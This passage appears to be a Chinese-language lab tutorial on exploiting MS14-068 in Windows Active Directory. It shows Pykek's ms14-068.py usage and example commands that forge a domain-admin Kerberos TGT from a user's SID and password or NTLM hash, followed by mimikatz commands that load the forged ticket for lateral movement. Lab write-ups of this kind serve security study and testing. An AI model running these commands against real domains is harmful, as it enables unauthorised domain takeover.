 利用的工具

*   Pykek

### Pykek

项目地址：[https://github.com/mubix/pykek](https://github.com/mubix/pykek)

#### 生成域管权限 TGT

通过 pykek 生成一个域管权限的的 TGT 票据，然后可以通过 mimikatz 或 impacket 导入 TGT 票据进行横向移动。

伪造域管 TGT 票据

```plain
➜  pykek python2 ms14-068.py
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
    -p <clearPassword>
 --rc4 <ntlmHash>
➜  pykek

python2 ms14-068.py -u lihua@qftm.com -s S-1-5-21-1089315214-1876535666-527601790-1128 -d 192.168.1.10 -p 1234567
python2 ms14-068.py -u lihua@qftm.com -s S-1-5-21-1089315214-1876535666-527601790-1128 -d 192.168.1.10 --rc4 328727b81ca05805a68ef26acb252039
```

[![](assets/1701606646-6aaeeb69e952ee9c4057ee93c0cb79e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112013741-03b58d8a-80b9-1.png)

#### Mimikatz 加载域管 TGT 票据

```plain
kerberos::purge
kerberos::klist
kerberos::ptc TGT_lihua@qftm.com.ccache
```

1）在域主机 win11 登录的域账号 QFTM\\zhangyu 下，进行测试（加载票据 TGT 为 lihua 账户伪造的域管 PAC）
